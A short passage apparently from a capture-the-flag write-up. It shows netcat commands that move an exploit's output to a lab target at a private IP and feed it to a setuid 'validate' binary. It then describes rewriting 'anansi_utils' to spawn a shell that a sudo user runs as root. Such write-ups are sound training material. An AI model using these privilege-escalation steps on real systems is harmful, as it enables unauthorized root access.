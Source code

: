 ```
# local
python exploit.py > out
nc -w 3 10.10.206.68 3333

# target
cd /tmp
nc -lp 3333 > out
/usr/local/bin/validate $(cat out)
```

![euid-anansi](assets/markdown-img-paste-20210910083653230.png)

We can now easily change the contents of 'anansi_utils' to just spawn a shell immediately. User 'puck' will be able to run it with sudo.

![root-from-anansi](assets/markdown-img-paste-20210910083535660.png)

